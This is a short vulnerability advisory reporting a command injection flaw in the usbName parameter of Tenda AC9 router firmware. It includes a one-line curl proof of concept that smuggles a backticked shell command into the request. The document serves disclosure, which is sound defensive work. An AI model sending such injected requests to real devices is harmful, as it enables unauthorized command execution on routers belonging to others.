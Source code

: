 ## Tenda AC9 command injection

### Overview

* Vendor: Tenda

* Product: Tenda AC9 
* Version:  V15.03.06.42_multi

* Manufacturer's address：https://www.tendacn.com/
* Firmware download address ：https://static.tenda.com.cn/tdcweb/download/uploadfile/AC9/US_AC9V3.0RTL_V15.03.06.42_multi_TD01.zip

### Vulnerability details

Tenda AC9 V15.03.06.42_multi was found to contain a command injection vulnerability in the `formSetSambaConf` function via the `usbname` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

![image](./img/2.png)

#### PoC

```
curl http://192.168.0.1/goform/SetSambaCfg?action=del&usbName=`touch%20/tmp/2.txt`
```

![image-20250413210610225](./img/3.png)
